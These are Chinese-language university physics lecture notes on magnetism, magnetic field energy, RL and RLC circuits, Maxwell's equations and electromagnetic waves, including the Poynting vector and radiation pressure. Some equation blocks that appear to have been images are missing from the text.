\[ \frac{Ze^2}{4\pi \varepsilon_0 r^2} + e \omega rB = m \omega^2 r \] \[ \omega = \omega_0 + \Delta \omega \] \[ \Delta \omega = \frac{eB}{2m} \]
\[ \frac{Ze^2}{4\pi \varepsilon_0 r^2} - e \omega rB = m \omega^2 r \] \[ \omega = \omega_0 - \Delta \omega \] \[ \Delta \omega = \frac{eB}{2m} \]
加上外磁场后，电子会受到洛伦兹力，无论最开始时电子磁矩的方向与外磁场的方向相同还是相反，即无论电子会被加速还是减速，经过分析可以发现 \(\Delta \omega\) 都会产生一个与外磁场方向相反的磁矩（抗磁）
我们可以分析出磁矩的变化量为： $$ \mu = iA = \frac{ev}{2\pi r} \left( \pi r^2 \right) = \frac{1}{2} evr = \frac{e r^2}{2} \omega, \quad \overrightarrow{\mu_0} = -\frac{e r^2}{2} \overrightarrow{\omega_0} $$
铁磁材料初始的磁矩 \(\mu_0 \neq 0\)，且近邻原子磁矩间存在强相互作用
磁化强度矢量与温度的关系为


磁畴

即使在没有外加磁场 \(B\) 的情况下，磁性材料中的磁偶极子（磁性小区域）也会倾向于在小范围内强烈地排列成特定的方向，形成所谓的“磁畴”。当施加外部磁场时，这些磁畴会重新排列，使得它们的方向一致，从而产生大的总磁化强度
-
软铁磁体：指的是容易被磁化和退磁的磁性材料。它们在外部磁场作用下磁畴会有序排列，但磁场移除后磁畴会很快随机化。
-
硬铁磁体：指的是不易被退磁的磁性材料，例如某些特殊合金。它们在外部磁场移除后仍能保持磁畴的有序排列，因此具有较强的磁性。
-
永久磁体：通常指永久保持磁性的材料，例如稀土磁铁。它们的磁畴在没有外力作用下不会随机化，但可以通过施加外力（如磁场或震动）来改变磁畴的方向。
-
居里点：是磁性材料的一个物理特性，指的是材料由铁磁性变为顺磁性的转变温度。对于铁来说，这个温度是770摄氏度。
磁场储存的能量¶
电场的能量密度
之前我们学到，电容中的电场储存着能量，储存的能量与单位体积的能量密度分别为 $$ U_e = \dfrac{1}{2} CV^2 $$ $$ u_E = \dfrac{1}{2} \epsilon_0 E^2 $$
类似于电场，磁场中也同样储存着能量
螺线管中的能量¶

对于一个自感系数为 \(L\) 的螺线管，假设其连接电源后最大的电流为 \(i_{max}\)，那么 $$ dW = - \varepsilon_L dq = -\varepsilon_L i dt, \quad \varepsilon_L = -L \dfrac{di}{dt} $$ $$ \therefore dW = Li \dfrac{di}{dt} dt = Li di $$
两个相连螺线管中的能量¶

两线圈互感所做的功为：
所以总的磁场能为
\(k\) 个螺线管相连所具有的总磁场能为
磁场的能量密度¶

考虑一段长度为 \(l\)，横截面积为 \(A\) 的螺线管 $$ U = \dfrac{1}{2} LI^2 $$ $$ L = \mu_0 n^2 lA = \mu_0 n^2 V $$ $$ B = \mu_0 n I $$
于是单位体积内的磁场的能量为
电场和磁场的能量密度
\[ u_B = \dfrac{B^2}{2\mu_0} = \dfrac{1}{2} \overrightarrow{B} \cdot \overrightarrow{H} \] \[ u_E= \dfrac{1}{2} \epsilon_0 E^2 = \dfrac{1}{2} \overrightarrow{D} \cdot \overrightarrow{E} \]
两者具有相当程度的对称性。
Example

\[ \oint \overrightarrow{B} \cdot d\overrightarrow{l} = \mu_0 i \] \[ B = \dfrac{\mu_0 i}{2\pi r} \] \[ u_B = \dfrac{B^2}{2\mu_0} = \dfrac{1}{2\mu_0} \dfrac{\mu_0^2 i^2}{4 \pi^2 r^2} = \dfrac{\mu_0 i^2}{8 \pi^2 r^2} \]
于是 $$ dU_B = u_B \cdot 2 \pi rl \cdot dr = \dfrac{\mu_0 i^2}{8 \pi^2 r^2} \cdot 2 \pi rl \cdot dr = \dfrac{\mu_0 i^2 l}{4\pi} \dfrac{dr}{r} $$ $$ U_B = \int_{R_1}^{R_2} dU_B = \dfrac{\mu_0 i^2 l}{4\pi} \ln \dfrac{R_2}{R_1} $$

又因为 $$ U_B = \dfrac{1}{2} Li^2 $$ 所以 $$ L = \dfrac{2U_B}{i^2} = \dfrac{\mu_0 l}{2\pi} \ln \dfrac{R_2}{R_1} $$
RL 电路¶
RC 电路

开关 K 闭合后 $$ iR + \frac{q}{C} = \varepsilon $$ $$ \frac{dq}{dt} + \frac{1}{RC} q = \frac{\varepsilon}{R} $$ $$ q = C\varepsilon\left(1 - e^{-t/RC}\right) $$

开关打向 a（接通电源）¶
当开关打向 a 时，RL 电路中的电流逐渐增大
$$ iR + L \frac{di}{dt} = \varepsilon $$ $$ \frac{di}{dt} = \frac{1}{L} \left( \varepsilon - iR \right) = -\frac{R}{L} \left( i - \frac{\varepsilon}{R} \right) $$ $$ i - \frac{\varepsilon}{R} = C'e^{-\frac{R}{L}t} $$ 当 \(t = 0\) 时，有 \(i = 0\)，$ \therefore C' = -\frac{\varepsilon}{R} $
所以 $$ i = \frac{\varepsilon}{R}\left(1 - e^{-\frac{R}{L}t}\right) = \frac{\varepsilon}{R}\left(1 - e^{-\frac{t}{\tau_L}}\right) $$ 其中，$ \tau_L = \frac{L}{R} $ 被称为感应时间常数
所以螺线管部分两端的电势差为 $$ V_L = -L \frac{di}{dt} = -\varepsilon e^{-\frac{t}{\tau_L}} $$
电流与螺线管两端的电势差随时间的变化

-
电流：$ i = \frac{\varepsilon}{R}\left(1 - e^{-\frac{t}{\tau_L}}\right) $
最大电流为 \(\frac{\varepsilon}{R}\)
当 \(t=\frac{L}{R}\) 时，电流约为最大电流的 63%
-
电势差：$ V_L = -L \frac{di}{dt} = -\varepsilon e^{-\frac{t}{\tau_L}} $
最大电势差为 \(\varepsilon\)
当 \(t=\frac{L}{R}\) 时，电势差约为最大电势差的 37%
开关打向 b（不接通电源）¶
当不接通电源时，螺线管中会产生一个阻碍电流减小的自感电动势，作用相当于一个不断衰弱的电源
\[ iR + L \frac{di}{dt} = 0 \] \[ \frac{di}{dt} = -\frac{R}{L}i \] \[ \Rightarrow i = i_0 e^{-\frac{R}{L}t} \] 其中 \(c\) 是一个常数。再将 \(t=0\), \(i=\frac{\varepsilon}{R}\) 代入，得到 \[ i = \dfrac{\varepsilon}{R}e^{-\frac{R}{L}t} \] \[ V = L\dfrac{di}{dt} = -\varepsilon e^{-\frac{R}{L}t} \]
电流与螺线管两端的电势差随时间的变化

-
电流：$ i = \frac{\varepsilon}{R} e^{-\frac{t}{\tau_L}} $
最大电流为 \(\frac{\varepsilon}{R}\)
当 \(t=\frac{L}{R}\) 时，电流约为最大电流的 37%
-
电势差：$ V_L = -L \frac{di}{dt} = -\varepsilon e^{-\frac{t}{\tau_L}} $
最大电势差为 \(-\varepsilon\)
当 \(t=\frac{L}{R}\) 时，电势差约为最大电势差的 37%
电磁振荡¶

在 LC 电路中，电容器和线圈的能量不断地相互转换，即电场能与磁场能不断地相互转换，这种现象被称为电磁振荡。
与简谐振动的类比

电磁振荡可以与简谐振动中的动能和势能相互转换进行类比。
我们知道简谐振动的频率为 $$ \omega = \sqrt{\dfrac{k}{m}} $$ 因此电磁振荡的频率为 $$ \omega = \dfrac{1}{\sqrt{LC}} $$
Proof
阻尼振动¶

在 RLC 电路中，除了电容与线圈的能量转换外，还有电阻的存在。电阻在电流中会发热，导致能量不断损耗，因此电磁振荡会逐渐衰减，这种现象被称为阻尼振动。
对于右图中接通电源和不接通电源两种情况，我们有 $$ L \frac{di}{dt} + iR + \frac{q}{C} = \begin{cases} \varepsilon & \text{K} \to a \ 0 & \text{K} \to b \end{cases} $$
再带入 \(i=\dfrac{dq}{dt}\)，有 $$ L \frac{d^2 q}{dt^2} + R \frac{dq}{dt} + \frac{q}{C} = \begin{cases} \varepsilon & \text{K} \to a \ 0 & \text{K} \to b \end{cases} $$
 Charging |
 Discharging |
当 $ \lambda^2 = \frac{b^2}{4ac} = \cfrac{R^2}{4L \cdot \cfrac{1}{C} } = \frac{R^2 C}{4L} > 1 $ 时，电路为过阻尼电路，电路不会发生电磁震荡，电荷 \(q\) 随时间的变化为 $$ q = e^{-\frac{R}{2L} t} (Ae^{ \sqrt{ \frac{R^2}{4L^2} - \frac{1}{LC} } t } + Be^{ -\sqrt{ \frac{R^2}{4L^2} - \frac{1}{LC} } t }) + C\varepsilon $$
 Charging |
 Discharging |
当 $ \lambda^2 = \dfrac{R^2 C}{4L} = 1 $ 时，为临界阻尼，也不会发生电磁震荡，并且此时电荷变化的速度最快。 $$ q = e^{-\frac{R}{2L} t} (A + Bt) + C\varepsilon $$
临界阻尼的图像与过阻尼相似，但是电荷变化的速度更快。

当 $ \lambda^2 = \dfrac{R^2 C}{4L} < 1 $ 时，电路为欠阻尼电路，电路会发生阻尼震荡，做振幅不断减小的振动 $$ \beta = i\omega = i\sqrt{\frac{1}{LC} - \frac{R^2}{4L^2}} = i\sqrt{\omega_0^2 - \frac{R^2}{4L^2}} $$
电荷 \(q\) 随时间的变化为 $$ q = q_m e^{-\frac{R}{2L} t} (\cos \omega t + \varphi) + C\varepsilon $$ 其中角频率 \(\omega = \sqrt{\omega_0^2 - \frac{R^2}{4L^2}} = \sqrt{\frac{1}{LC} - \frac{R^2}{4L^2}}\) 当 \(R\) 很小时，\(\omega \approx \sqrt{\frac{1}{LC}} = \omega_0\)
受迫振动¶

类似于简谐振动中的受迫振动，当 RLC 电路中有交流电源时，电路中的电流和电荷会受到周期性的外力作用，从而产生受迫振动。 $$ \text{if } \varepsilon = \varepsilon_m \cos \omega'' t $$ $$ q = q_m e^{- \frac{R}{2L} t} \cos (\omega t + \varphi) + C\varepsilon $$ 当 $ \omega'' = \omega $ 时，即外加的交流电源频率与 RLC 电路的固有频率相同时，电路中的电流和电荷会达到最大值（共振）。
麦克斯韦方程组与电磁波¶
约 6441 个字 21 张图片 预计阅读时间 26 分钟
一些我们已经学过的公式
在真空中：
- 电场的高斯定理：$$ \oiint \overrightarrow{E}·d\overrightarrow{A} = \frac{q_0}{\epsilon_0} $$
- 磁场的高斯定理：$$ \oiint \overrightarrow{B}·d\overrightarrow{A} = 0 $$
- 法拉第电磁感应定律：$$ \oint \overrightarrow{E}·d\overrightarrow{l} = -\frac{d\Phi_B}{dt} = -\iint \frac{ \partial \overrightarrow{B} }{ \partial t } \cdot \overrightarrow{A} $$
- 安培环路定理：$$ \oint \overrightarrow{B} \cdot \overrightarrow{l} = \mu_0 i $$
在电介质或磁材料中： $$ \begin{cases} \displaystyle\oiint \overrightarrow{D}·d\overrightarrow{A} = q_0 \\\\ \displaystyle\oiint \overrightarrow{B}·d\overrightarrow{A} = 0 \\\\ \displaystyle\oint \overrightarrow{E}·d\overrightarrow{l} = -\iint \frac{ \partial \overrightarrow{B} }{ \partial t } \cdot \overrightarrow{A} \\\\ \displaystyle\oint \overrightarrow{H}·d\overrightarrow{l} = i_0 = \displaystyle\iint \overrightarrow{j} \cdot \overrightarrow{A} \end{cases} $$
其中 $$ \overrightarrow{D} = \epsilon_0 \overrightarrow{E} + \overrightarrow{P} = \kappa_e \epsilon_0 \overrightarrow{E} $$ $$ \overrightarrow{B} = \mu (\overrightarrow{H} + \overrightarrow{M}) = \kappa_m \mu_0 \overrightarrow{H} $$ $$ \overrightarrow{j}_0 = \sigma \overrightarrow{E} $$
对称性原则¶
很自然的，科学家们希望所有的物理公式都具有一种对称性，这样才能更好地描述自然界的规律。观察上面磁场的高斯定律，我们显然不希望等式的右侧只有一个 0；对于电场的安培环路定律，我们也希望它能与磁场的安培环路定律具有一种对称的相似性，
因此我们引入了一个新的定义：磁荷 \(q_m\) ，即只带有正极或负极的磁单极（类比于点电荷）。这样，我们就可以得到磁场的高斯定律和电场的环路定理做出修正：
感应磁场与位移电流¶
 借助磁场的环路定理和 stokes 公式，我们可以知道，通过一个环路的电流大小等于通过以这个环路为边界的曲面电流密度的积分
借助磁场的环路定理和 stokes 公式，我们可以知道，通过一个环路的电流大小等于通过以这个环路为边界的曲面电流密度的积分
如右图，电流通过蓝色的回路，以蓝色回路为边缘构造两个曲面 \(S_1\) 和 \(S_2\)，则通过这两个曲面的电流大小相等，方向相反 \[ \oint \overrightarrow{H} \cdot d\overrightarrow{l} = i_0 = \iint_{S_2} \overrightarrow{j} _ 0 \cdot d\overrightarrow{A} \] \[ -\iint_{S_1} \overrightarrow{j} _ 0 \cdot d\overrightarrow{A} = \iint_{S_2} \overrightarrow{j} _ 0 \cdot d\overrightarrow{A} = i_0 \] \[ \oiint_S \overrightarrow{j} _ 0 \cdot d\overrightarrow{A} = \iint_{S_1} \overrightarrow{j} _ 0 \cdot d\overrightarrow{A} + \iint_{S_2} \overrightarrow{j} _ 0 \cdot d\overrightarrow{A} = 0 \] 上面公式的物理含义是，通过一个闭合曲面的电流恒等于零（流入的电流等于流出的电流），
但是这样的结论在讨论一个电容器的充电时则会出现问题。

对于（1，2）构成的闭合曲面以及（1，4）构成的闭合曲面，其内部的电流之和为零。但当我们选择曲面（1，3）时，就发现电流从曲面1进入，但并没有从曲面3流出，这就说明我们上面的结论存在问题。
为了解决这个问题，我们引入了位移电流 \(I_D\) 的概念。位移电流是由于电场的变化而产生的，它的大小与电场的变化率成正比，方向与电场的变化方向相同。 $$ \oint \overrightarrow{H} \cdot d\overrightarrow{l} = I_{free} + I_D $$
但是位移电流的概念是怎么得到的呢？我们可以从下面的推导中看到：
位移电流的推导
首先考虑（1，3）构成的曲面 \(S\)，电流只进入不流出 $$ \oiint_S \overrightarrow{j}_0 \cdot d\overrightarrow{A} = -\dfrac{dq_0}{dt} $$ 又根据高斯定律， $$ \oiint_S \overrightarrow{D} \cdot d\overrightarrow{A} = q_0 $$ 于是 $$ \dfrac{dq_0}{dt} = \dfrac{d}{dt} \oiint_S \overrightarrow{D} \cdot d\overrightarrow{A} = \oiint_S \dfrac{\partial \overrightarrow{D}}{\partial t} \cdot d\overrightarrow{A} $$
此时在曲面1进入的量等于从曲面3流出的量，即
考虑到电位移矢量与磁感应强度的对称关系，我们也可以定义一个类似于磁通量的物理量：电位移通量
Info
电位移通量 $$ \Phi_D = \iint \overrightarrow{D} \cdot d\overrightarrow{A} $$ 位移电流 $$ I_D = \dfrac{d\Phi_D}{dt} = \iint \dfrac{\partial \overrightarrow{D}}{\partial t} \cdot d\overrightarrow{A} $$ 位移电流密度 $$ \overrightarrow{j}_D = \dfrac{\partial \overrightarrow{D}}{\partial t} $$
- 磁通量的变化率等于感应电流的大小
- 电位移通量的变化率等于位移电流的大小
综合以上的内容，我们就得到了新的安培环路定理： $$ \oint \overrightarrow{H} \cdot d\overrightarrow{l} = i_0 + i_D = \iint \left( \overrightarrow{j}_0 + \dfrac{\partial \overrightarrow{D}}{\partial t} \right) \cdot d\overrightarrow{A} $$
根据 stokes 公式，我们可以得到
于是 $$ \nabla \times \overrightarrow{H} = \overrightarrow{j}_0 + \dfrac{\partial \overrightarrow{D}}{\partial t} $$
Example

充电时，两个电极板之间的位移电流的大小等于导线中电流的大小，这样就使得整个电路中的电流是“连续”的。
充满电之后，\(i_0 = i_D = 0\)


当电极板之间是真空（没有电介质）时
于是从最后一个式子我们可以知道：变化的电场会产生一个涡旋的磁场（eddy magnetic field）。
Tip
电场的变化会产生涡旋磁场，磁场的变化会产生涡旋电场。
但磁场变化时由于楞次定律的存在，涡旋电场的方向与磁场变化的方向相反（有负号）；而电场变化时，涡旋磁场的方向与电场变化的方向相同（无负号）。
\[ \oint \overrightarrow{E} \cdot d\overrightarrow{l} = -\iint \dfrac{\partial \overrightarrow{B}}{\partial t} \cdot d\overrightarrow{A} \] \[ \oint \overrightarrow{B} \cdot d\overrightarrow{l} = \mu_0 \epsilon_0 \int \int \frac{\partial \overrightarrow{E}}{\partial t} \cdot d\overrightarrow{A} \]
经过上面的讨论和拓展后，我们就得到了麦克斯韦方程组：
麦克斯韦方程组
在真空中：
- 电场的高斯定理：$$ \oiint \overrightarrow{E}·d\overrightarrow{A} = \frac{q_0}{\epsilon_0} $$
- 磁场的高斯定理：$$ \oiint \overrightarrow{B}·d\overrightarrow{A} = 0 $$
- 法拉第电磁感应定律：$$ \oint \overrightarrow{E}·d\overrightarrow{l} = -\frac{d\Phi_B}{dt} = -\iint \frac{ \partial \overrightarrow{B} }{ \partial t } \cdot \overrightarrow{A} $$
- 安培环路定理（被麦克斯韦拓展）：$$ \oint \overrightarrow{B} \cdot \overrightarrow{l} = \mu_0 i + \mu_0 \epsilon_0 \iint \frac{ \partial \overrightarrow{E} }{ \partial t } \cdot \overrightarrow{A} $$
在电介质或磁材料中： $$ \begin{cases} \displaystyle\oiint \overrightarrow{D}·d\overrightarrow{A} = q_0 \\\\ \displaystyle\oiint \overrightarrow{B}·d\overrightarrow{A} = 0 \\\\ \displaystyle\oint \overrightarrow{E}·d\overrightarrow{l} = -\iint \frac{ \partial \overrightarrow{B} }{ \partial t } \cdot \overrightarrow{A} \\\\ \displaystyle\oint \overrightarrow{H}·d\overrightarrow{l} = i_0 + \frac{ \partial \overrightarrow{D} }{ \partial t } \cdot \overrightarrow{A} \end{cases} $$
其中 $$ \overrightarrow{D} = \epsilon \overrightarrow{E} + \overrightarrow{P} = \kappa_e \epsilon_0 \overrightarrow{E} $$ $$ \overrightarrow{B} = \mu (\overrightarrow{H} + \overrightarrow{M}) = \kappa_m \mu_0 \overrightarrow{H} $$ $$ \overrightarrow{j}_0 = \sigma \overrightarrow{E} $$
电磁波¶
电磁波的传播¶
- 电磁波的传播不需要介质，可以在真空中传播

- 变化的磁场会产生涡旋的电场：$$ \oint \overrightarrow{E} \cdot d\overrightarrow{l} = -\iint \dfrac{\partial \overrightarrow{B}}{\partial t} \cdot d\overrightarrow{A} $$
-
变化的电场会产生涡旋的磁场：$$ \oint \overrightarrow{H} \cdot d\overrightarrow{l} = \iint \frac{\partial \overrightarrow{D}}{\partial t} \cdot d\overrightarrow{A} $$
假如由于感应产生的电场和磁场的都在不断变化，那么就会形成”一串“不断传播的电磁场，这就是电磁波。

Note
在自由空间（真空）中， $$ \rho_{e0} = 0, \quad \overrightarrow{j}_0 = 0 $$ 在自由空间中传播的电磁波具有以下 5 条性质：
-
电磁波是横波，电场和磁场均垂直于传播方向 \(\overrightarrow{E} \perp \overrightarrow{k}, \quad \overrightarrow{H} \perp \overrightarrow{k}\)

-
电场和磁场始终相互垂直 \(\overrightarrow{E} \perp \overrightarrow{H}\)
-
\(E\) 与 \(H\) 同相位

-
\(\sqrt{\kappa_e \epsilon_0} E_0 = \sqrt{\kappa_m \mu_0} H_0\)
-
电磁波的传播速度为：$$ v = \frac{1}{\sqrt{\kappa_e \epsilon_0 \kappa_m \mu_0}} $$
在真空中，\(\kappa_e = \kappa_m = 1\)，所以 $$v = \dfrac{1}{\sqrt{\epsilon_0 \mu_0}} = c = 3 \times 10^8 m/sLV $$
从麦克斯韦方程组到电磁波¶
我们利用麦克斯韦方程组推导出一些电磁波的性质：
根据向量点乘与叉乘的含义，我们可以把右侧的式子进行展开
首先假设一个点波源，它发出的电磁波就是一个球面，在很远处的自由空间中，取一个较小的弧面，这个弧面的电磁波可以近似认为是一个平面波。以电磁波传播的方向为 \(z\) 轴，电场和磁场所在方向分别为 \(x\) 轴和 \(y\) 轴。

将上面得到的式子展开，那么就可以得到以下 8 个方程：
接下来我们将使用这些方程来推导电磁波的 5 条性质。
横波¶
首先我们知道电场强度 \(E\) 在 \(x\) 和 \(y\) 方向上的分量都与 \(x\) 和 \(y\) 无关，仅与 \(z\) 和时间 \(t\) 有关，磁场强度 \(H\) 也是如此，因此 $$ \dfrac{\partial E_x}{\partial x} = \dfrac{\partial E_y}{\partial y} = \dfrac{\partial E_x}{\partial y} = \dfrac{\partial E_y}{\partial x} = 0 $$ $$ \dfrac{\partial H_x}{\partial x} = \dfrac{\partial H_y}{\partial y} = \dfrac{\partial H_x}{\partial y} = \dfrac{\partial H_y}{\partial x} = 0 $$ 把它们带入上面的方程中，就有
因此电场强度和磁场强度在 \(z\) 方向的分量 \(E_z, H_z\) 与空间和时间都无关，是一个常数，我们不妨将它们都设为 0，即 \(E_z = H_z = 0\)。
于是我们就得到 \(\overrightarrow{E}\) 和 \(\overrightarrow{H}\) 都与传播方向垂直 $$ \overrightarrow{E} \perp \overrightarrow{k}, \quad \overrightarrow{H} \perp \overrightarrow{k} $$
电场与磁场相互垂直 \(\overrightarrow{E} \perp \overrightarrow{H}\)¶
利用刚刚得到的 \(E_z = H_z = 0\)，再重新带入方程组中，我们有
由于\(x\)轴和\(y\)轴是可以任意定义的，那么我们不妨设电场\(\overrightarrow{E}\)的方向为\(x\)轴的方向，于是 $$ \overrightarrow{E} \parallel \text{x axis} \quad \Rightarrow \quad E_x \neq 0, E_y = 0 $$
再把它带入上面的（2-1）和（4-2）中，就有
这说明此时磁场强度\(\overrightarrow{H}\)的方向沿着\(y\)轴，于是就说明了电场强度\(\overrightarrow{E}\)和磁场强度\(\overrightarrow{H}\)始终相互垂直。 $$ \overrightarrow{E} \perp \overrightarrow{H} $$
波动方程¶

下面我们来推导电磁波剩余的 3 条性质。
对上面四个方程中（2-2）的两边对 \(t\) 求偏导，有 $$ \frac{\partial^2 E_x}{\partial z^2} = -\kappa_m \mu_0 \frac{\partial}{\partial t} \cdot \frac{\partial H_y}{\partial z} = \kappa_m \mu_0 K_e \epsilon_0 \frac{\partial^2 E_x}{\partial t^2} $$
同理我们可以对（4-1）两边做相同的操作，就与就得到以下两个方程：
对于这两个方程，我们可以猜测他们的根具有如下的形式：
其中 \(\omega=\dfrac{2\pi}{T}\) 是角频率，\(k=\dfrac{2\pi}{\lambda}\) 是波数（或称波矢，wave vector），\(\lambda\) 是波长。
带入上面的方程中，得到
又因为 \(v = \dfrac{\lambda}{T} = \dfrac{\omega}{k}\)，所以
并且在真空中，磁导率 \(\kappa_m = 1\)，电导率 \(\kappa_e = 1\)，带入数据计算后发现 \(v = \dfrac{1}{\sqrt{ \epsilon_0 \mu_0}} = 3 \times 10^8 m/s = c\)。
因此我们就证明了上面提到的电磁波的第 5 条性质，并且还推测光也是一种电磁波。
Tip
我们在中学中已经学到过，光在非真空的介质中传播速度为 \(v = \dfrac{c}{n}\)，其中 \(n\) 是介质的折射率，\(c\) 是真空中的光速。对比上面的式子，我们发现 $$ v = \dfrac{1}{\sqrt{\kappa_e \epsilon_0 \kappa_m \mu_0}} = \dfrac{c}{\sqrt{\kappa_e \kappa_m}} $$ 因此我们可以得到折射率实际上就是 $$ n = \sqrt{\kappa_e \kappa_m} $$
进一步地，我们将上面的试探解带入式（2-2）$ \dfrac{\partial E_x}{\partial z} = -\kappa_m \mu_0 \dfrac{\partial H_y}{\partial t} $ 中，就有
那么我们就利用波动方程一次性证明了第3和第4条性质
真空中 \(E_0\) 与 \(B_0\) 的关系
在真空中，\(\kappa_e = \kappa_m = 1\)，所以 $$ \sqrt{\varepsilon_0} E_0 = \sqrt{\mu_0} H_0 $$ $$ E_0 = \dfrac{\mu_0 H_0}{\sqrt{\varepsilon_0 \mu_0}}=cB_0 $$ 或者 $$ B_0 = \dfrac{E_0}{c} $$
因此我们知道在真空中电场强度与磁感应强度只差一个常数——光速，并且磁感应强度的大小远小于电场强度。因此在实际的实验中，电场的测量是远比磁场方便的，后续我们在讨论光的强度等问题时，都是默认以电场强度为基准，而不考虑磁感应强度。
电磁波的能流密度和动量¶
电磁波的能流密度¶

电磁波的能量包括电场和磁场两部分 $$ U = \iiint \left( \dfrac{1}{2} \varepsilon_0 E^2 + \dfrac{1}{2} \dfrac{B^2}{\mu_0} \right) dv $$
上面的式子仅对于真空中的电磁波有效，对于更一般的情况 $$ U = U_E + U_B = \iiint \left( \dfrac{1}{2} \varepsilon_0 E^2 + \dfrac{1}{2} \dfrac{B^2}{\mu_0} \right) dv $$
接下来我们考虑电磁波的能量随时间变化的速率
为了更好地分析，我们可以把被积分的式子展开
化简整理到这一步之后，我们可以回忆麦克斯韦方程组
带入上式后就得到
上面最后一步的化简我们使用了下面这个公式 $$ \overrightarrow{E} \cdot (\nabla \times \overrightarrow{H}) - \overrightarrow{H} \cdot (\nabla \times \overrightarrow{E}) = - \nabla \cdot (\overrightarrow{E} \times \overrightarrow{H}) $$
最后利用高斯定律再次对整个式子进行整理
化简方程右边的第二项¶
下面我们来看看上式中第二项 $ \displaystyle\iiint (\overrightarrow{j}_0 \cdot \overrightarrow{E}) dv $ 具体是什么

根据欧姆定律的微分形式，我们知道 $$ \overrightarrow{j}_0 =\sigma (\overrightarrow{E}+\overrightarrow{K}) $$ $$ \therefore \overrightarrow{E}=\dfrac{1}{\sigma} \overrightarrow{j}_0 - \overrightarrow{K} = \rho\overrightarrow{j}_0 - \overrightarrow{K} $$
所以
在这里，\(Q\) 代表的是电流由于电阻发热的功率，\(P\) 是电源提供的功率。
玻印廷矢量（Poynting vector）¶
我们也可以对方程的第一项进行化简，我们引入一个新的矢量：玻印廷矢量（Poynting vector）\(\overrightarrow{S}\)，定义为 $$ \overrightarrow{S} = \overrightarrow{E} \times \overrightarrow{H} $$
那么我们最终将上面的方程化简为 $$ \dfrac{dU}{dt} = - \iint \overrightarrow{S} \cdot d\overrightarrow{A} - \iiint (\overrightarrow{j}_0 \cdot \overrightarrow{E}) dv $$
其中，$ \displaystyle \iint \overrightarrow{S} \cdot d\overrightarrow{A} $ 表示表面积为 \(A\) 的面积上电磁波在单位时间内向外辐射出的能量，称为电磁波能量通量
Poynting Vector
- \(\overrightarrow{S}\) 的方向是电磁波传播的方向
- \(\overrightarrow{S}\) 大小的均值就是电磁波在单位时间内通过单位面积的能量
$$ S = \dfrac{EB}{\mu_0} = \dfrac{E^2}{\mu_0 c} = \dfrac{E^2}{Z_0} = \dfrac{E^2}{377 \Omega} $$ 其中 \(Z_0 = \mu_0 c = 377 \Omega\) 是真空中的特征阻抗
电磁波的强度就是玻印廷矢量在时间和空间上的均值（单位时间、单位面积），单位为瓦特每平方米（W/m²）
电磁波的能量密度¶
我们知道电场的能量密度和磁场的能量密度分别为 $$ u_E = \dfrac{1}{2} \varepsilon_0 E^2, \quad u_B = \dfrac{1}{2} \dfrac{B^2}{\mu_0} $$
而在电磁波中，\(B=\dfrac{E}{c}\)，于是 $$ u_B = \dfrac{1}{2} \dfrac{B^2}{\mu_0} = \dfrac{1}{2} \dfrac{E^2}{\mu_0 c^2} = \dfrac{1}{2} \dfrac{E^2}{\mu_0 \dfrac{1}{\varepsilon_0 \mu_0}} = \dfrac{1}{2} \varepsilon_0 E^2 = u_E $$
这说明电磁波中电场和磁场的能量密度是相等的，因此电磁波的总能量密度为
上面提到过，在实际的实验中 \(E\) 要比 \(B\) 大很多，更容易测量，因此我们在这里用 \(E\) 来表示电磁波总的能量密度。
通常来说，我们更关注电磁波的平均能量密度， $$ \left< u \right> = \varepsilon_0 \left< E^2 \right> = \varepsilon_0 E_{max}^2 \left< sin^2(kz - \omega t) \right> = \dfrac{\varepsilon_0 E_{max}^2}{2} $$
这时我们可以引入电场强度的均方根，\(E_{rms} = \dfrac{E_{max}}{\sqrt{2}}\)，那么电磁波的平均能量密度就可以表示为 $$ \left< u \right> = \dfrac{\varepsilon_0 E_{max}^2}{2} = \varepsilon_0 E_{rms}^2 $$
回顾我们上面对波的强度的定义，\(I\) 可以被定义为单位面积上的平均功率 = 平均能量密度乘以波的传播速度，即

最后得到的结果依然和我们之前的定义相同！
Example

电路中的能量传输¶
🐯：小心我拿这个出题考你们


- 对于如上图的一个直流电路，我们知道在电源中电场 \(E\) 由正极指向负极，电流方向恰好相反，而磁场强度 \(H\) 的方向由电流方向决定，根据右手定则，我们可以发现 \(S\) 的方向是沿电源的径向向外的。
-
对于与正极相连的导线，在导线的内部有一个由电源提供的电场，方向与导线平行，根据右手定则，我们可以发现 \(S\) 的方向是沿导线的径向向内；
而在导线的外表面，除了电源提供的电场之外，由于外表面还有正电荷，因此总的电场是向导线外倾斜着的，于是 \(S\) 的除了具有径向向里的分量之外，还有沿着电流方向的分量。因此我们可以知道能量流动的方向：一方面沿着导线流向电阻，另一方面被导线的电阻消耗
假如导线是超导体的话，能量就不会被导线所消耗，所有的能量都会流向电阻
-
对于与负极相连的导线，我们可以得到类似的分析：
导线内部的 \(S\) 是沿径向向内的；而导线外表面的 \(S\) 除了有径向向内的分量之外，还有逆着电流方向的分量
于是最终分析得到的 \(S\) 的方向就和第一张图中箭头的方向一致，即能量从电源流向电阻。
电磁波的动量与辐射压强¶

当电磁波传播到一个物体上时，根据 \(\overrightarrow{j}_0 = \sigma \overrightarrow{E}\)，我们可以知道产生的电流方向与电磁波的电场方向一致。这个物体中电子受到的力为 $$ \overrightarrow{f}_L = -e \overrightarrow{v} \times \overrightarrow{B} = -\mu_0 e \overrightarrow{v} \times \overrightarrow{H} $$
因此物体会受到一个沿电磁波传播方向的力，而电磁波也会收到一个相反方向的力，所以电磁波会被反射回去
力 \(\Delta F\) 在面积为 \(\Delta A\) 的表面上做的功等与电磁波减少的能量 $$ \Delta \overrightarrow{F} \cdot c \Delta t = (\overrightarrow{S} _ {in} - \overrightarrow{S} _ {out}) \cdot \Delta A \Delta t $$ 于是 $$ \Delta \overrightarrow{F} = \dfrac{1}{c} (\overrightarrow{S} _ {in} - \overrightarrow{S} _ {out}) \Delta A $$ 电磁波作用在物体上的压强为 $$ P = \dfrac{ \left| \Delta \overrightarrow{F} \right| }{\Delta A} = \dfrac{1}{c} (\left| \overrightarrow{S} _ {in} \right| - \left| \overrightarrow{S} _ {out} \right|) $$ 电磁波的动量变化为 $$ \Delta \overrightarrow{G} = -\Delta \overrightarrow{G}_P = -\Delta \overrightarrow{F} \cdot \Delta t = -\dfrac{1}{c} (\overrightarrow{S} _ {out} - \overrightarrow{S} _ {in}) \Delta A \Delta t $$ 于是单位体积内的动量变化为
其中 \(\overrightarrow{g}_{in}=\dfrac{1}{c^2} \overrightarrow{S}_{in}\) 为入射光的动量密度，\(\overrightarrow{g}_{out}=\dfrac{1}{c^2} \overrightarrow{S}_{out}\) 为反射光的动量密度
